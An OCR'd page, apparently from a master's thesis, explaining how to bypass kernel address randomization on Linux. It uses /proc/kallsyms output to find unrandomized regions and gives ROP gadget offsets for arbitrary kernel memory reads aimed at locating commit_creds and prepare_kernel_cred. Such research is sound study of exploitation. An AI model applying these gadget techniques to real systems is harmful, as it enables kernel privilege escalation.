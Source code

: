 \documentclass{masterthesis}
\begin{document}
\subsection{Gathering useful gadgets}
This mitigation not being perfect presents regions within the code that are never randomized.
This differs from kernel to kernel. For example, here are several functions that are never randomized:
\begin{lstlisting}
/ # grep __x86_retpoline_r15 /proc/kallsyms
ffffffffbce00dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffffbca00000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffffbcc00f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffffbd985198 R __start___ksymtab 

/ # grep __x86_retpoline_r15 /proc/kallsyms
ffffffff8ea00dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffff8e600000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffff8e800f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffff8f585198 R __start___ksymtab

/ #  grep __x86_retpoline_r15 /proc/kallsyms
ffffffffaa000dc6 T __x86_retpoline_r15
/ # grep _text /proc/kallsyms  | head -1
ffffffffa9c00000 T _text
/ # grep swapgs_restore_regs_and_return_to_usermode /proc/kallsyms 
ffffffffa9e00f10 T swapgs_restore_regs_and_return_to_usermode
/ # grep ksymtab /proc/kallsyms | head -1
ffffffffaab85198 R __start___ksymtab
\end{lstlisting}

The functions from \texttt{\_text base} to \texttt{\_\_x86\_retpoline\_r15}, which is \texttt{\_text+0x400dc6} are unaffected. Unfortunately, \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred} do not reside in this region, but we can still look for useful registers and memory manipulation gadgets from this point.
\emph{KPTI} trampoline \texttt{swapgs\_restore\_regs\_and\_return\_to\_usermode} is unaffected.
The kernel symbol table ksymtab, starts at \texttt{\_text+0xf85198} is unaffected. In here contains the offsets that can be used to calculate the addresses of \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred}.

\begin{lstlisting}
unsigned long pop_rax_ret = image_base + 0x4d11UL; // pop rax; ret
unsigned long read_mem_pop1_ret = image_base + 0x4aaeUL; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
unsigned long pop_rdi_rbp_ret = image_base + 0x38a0UL; // pop rdi; pop rbp; ret;
\end{lstlisting}
The first 2 gadgets can be used to read an arbitrary memory block, by simply popping its address subtract by 0x10 to \texttt{RAX}. The third gadget is a normal \texttt{pop RDI} for functions' parameter.
\end{document}
